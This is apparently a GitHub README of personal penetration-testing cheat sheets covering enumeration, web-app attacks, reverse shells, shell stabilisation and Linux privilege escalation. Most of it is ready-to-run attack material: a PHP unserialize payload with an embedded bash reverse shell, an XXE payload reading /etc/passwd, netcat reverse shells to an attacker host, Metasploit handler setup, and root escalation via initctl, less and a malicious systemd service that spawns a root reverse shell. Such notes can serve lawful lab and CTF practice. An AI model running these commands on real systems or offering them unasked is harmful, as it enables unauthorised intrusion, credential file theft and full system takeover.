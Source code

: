 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```

## Web Apps:
+ <b>Check for vhost routing, modify /etc/hosts</b>
+  Gobuster dir, dns, and vhost
+ <b>.php files may have .bak (backup)</b>
+ <b>RCE via PHP Unserialize</b>
```
https://notsosecure.com/remote-code-execution-via-php-unserialize/
+ serialize as necessary as a parameter
public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/192.168.0.1/4242 0>&1\'"); ?>';
```
+ <b>Check for insecure redirects</b>
Open up ZAP/Burpsuite, capture the 302 response, change the status code from 302 to 200 and change the location field.

![image](https://user-images.githubusercontent.com/34889665/120560666-1e5e2680-c3d1-11eb-8d61-7dbd590ab5e5.png)
+ <b>Check for exposed /.git directory</b> 

Clone repository:
```bash
wget --mirror -I .git TARGET.COM/.git/ 
```

Get files from last commit:
```bash
git checkout -- .
```

Check out commit log:
```bash
git log
```

Check out previous commit:
```bash
git checkout 123456789
```


XML XXE:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Reverse Shells:
+ <b>Listen for ping (ICMP echo)</b>
``` console
$ tcpdump -i <interface> icmp
```


+ <b>Netcat - Listener</b>
```console
$ nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```console
$ nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```console
$ mknod /tmp/backpipe p
$ /bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```
+ <b>Metasploit - Listener</b>
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
OR
set PAYLOAD linux/x86/shell/reverse_tcp
set LHOST 192.168.0.1
set LPORT 4242
run
```

## Upgrading/Stablizing Shells:

+ <b>Shell To Meterpreter</b>
```bash
(After shell has been backgrounded in Metasploit)
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
(OR)
sessions -u 1
```

+ <b>Using Python</b>

*Upgrading:*
```console
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$ export TERM=xterm
```

*Stablizing:*
```console
$ ^Z
$ stty raw -echo; fg
(ENTER)
```
## Post-Meterpreter Shell To-Do's:
+ <b>Background Meterpreter Session</b>
```console
^Z
Y
```
+ <b>Use Local Exploit Suggester</b>
```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Windows Target:
+ <b>Get System Info (from meterpreter session)</b>
```
sysinfo
```

+ <b>Get System Info (standard shell) *look for hotfixes*</b>
```
systeminfo
```

## Enumeration:
+ <b>LinPEAS</b>
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
```


## Privilege Escalation:

+ <b>/sbin/initctl</b>
```
Check current status of services
sudo -u root /sbin/initctl list
```
```
Add this to test.conf
script
    chmod +s /bin/bash
end script
```
```
sudo /sbin/initctl start test.conf
$/bin/bash -p
#whoami
```

+ <b>less</b>
```
less [file in path user is allowed to execute less as root with]
!/bin/sh
```

+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
